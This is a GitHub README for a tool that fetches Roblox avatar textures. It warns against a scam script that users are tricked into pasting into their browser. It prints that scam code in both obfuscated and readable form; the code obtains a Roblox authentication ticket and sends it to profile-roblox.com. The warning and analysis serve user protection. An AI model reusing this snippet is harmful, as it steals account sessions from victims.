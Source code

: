 # Roblox Avatar Texture Scraper
Got a message or email from someone asking for your Roblox Avatar Texture, and asking you to run a JavaScript script in your browser? Instead of doing that (and giving away access to your account in the process*), use Roblox Avatar Texture Scraper (RATS) to get it instead.

## Example Usage

### Python:
**Make sure you have Python installed**
- Download the rats.py file
- Open Command Prompt (cmd.exe) or Power Shell in the folder where you installed the file
  - Alternatively use `cd C:\Downloads` where C:\Downloads is the folder with the file.
- Run the command `python rats.py`
- Enter your Player ID (ex: `2968170`)
- [Bam!](https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365) *or [bam](https://t1.rbxcdn.com/f8c626767c822ab380f857650bbca669) if you're using R15.*

### Standalone File:
- Download the rats.exe file [located here](https://github.com/SaxaphoneWalrus/Roblox-Avatar-Texture-Scraper/releases/)
- Run / Double click the file
- Enter your Player ID (ex: `2968170`)
- [Bam!](https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365) *or [bam](https://t1.rbxcdn.com/f8c626767c822ab380f857650bbca669) if you're using R15.*


## JavaScript Attack

The attack is simple, they ask you for your avatar texture and then give you an easy way of acquiring said texture. Simple, right? They're not asking for your password or anything, so where's the catch?

### Getting Your Avatar

The way they get your avatar is simple and legitimate enough, they simply query Roblox's own API using your public details.

```
async function payload2() {
    var hash = (await (await fetch((await (await fetch("https://www.roblox.com/avatar-thumbnail-3d/json?userId=" + $("meta[name='user-data']").data("userid") + "&_=" + Math.random())).json()).Url)).json()).textures[0]

    for (var i = 31, t = 0; t < 32; t++)
        i ^= hash[t].charCodeAt(0);

    location.href = "https://t" + (i % 8).toString() + ".rbxcdn.com/" + hash
}
```

A simplified breakdown:

- They fetch the JSON from `avatar-thumbnail-3d` [like this](https://www.roblox.com/avatar-thumbnail-3d/json?userId=2968170)
- They get the Textures hash from the URL in the JSON above
- They get which CDN the texture is hosted on from the hash
- They redirect your browser to the texture.

So.. where's the catch?


### *The Catch

```
(async function(){var _0x2416b1=(await(await fetch('/home',{'credentials':'include'}))['text']())['split']('setToken(\x27')[0x1]['split']('\x27)')[0x0];var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{'method':'POST','credentials':'include','headers':{'x-csrf-token':_0x2416b1}}))['headers']['get']('rbx-authentication-ticket');await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);await payload2()}());
```

This is at the bottom of the JavaScript file, all one line so it's harder to read.
Let's make it a bit more readable (using [MalwareDecoder](https://malwaredecoder.com/) because I am lazy.);

```
(async function(){
		var _0x2416b1=(await(await fetch('/home',{
		'credentials':'include'
	}
	))['text']())['split']('setToken('')[0x1]['split']('')')[0x0];
		var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{
			'method':'POST','credentials':'include','headers':{
			'x-csrf-token':_0x2416b1
		}
	}
	))['headers']['get']('rbx-authentication-ticket');
	await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);
	await payload2()
}
());
```

And now let's have the guy that doesn't exactly know what he's talking about break it down again!

- Get your Roblox X-CSRF token ([Cross-Site Request Forgery](https://blog.roblox.com/2020/10/protecting-users-cross-site-request-forgery/))
- Get your Roblox Authentication Ticket, using the X-CSRF token that they just acquired
- Send it to their own site
- Run the legitimate code, so you get your avatar texture.


## Why "RATS"?

My original python file I made for my own usage was called `avatr_texture.py`, and when I decided I wanted to put it out I decided to add Roblox to the name so people know what it's for, making it more likely to be seen by those who need it (Spoiler alert: Nobody will see it.)
And then I added 'Scraper' to the end because, well, I think "Rats" sounds better than "RAT" - and it also helps that the people who made the original JS script are rats.


## Me!

[I make YouTube videos.](https://youtube.com/saxaphonewalrus) They have nothing to do with this, I just thought I'd plug it in case anyone sees this.
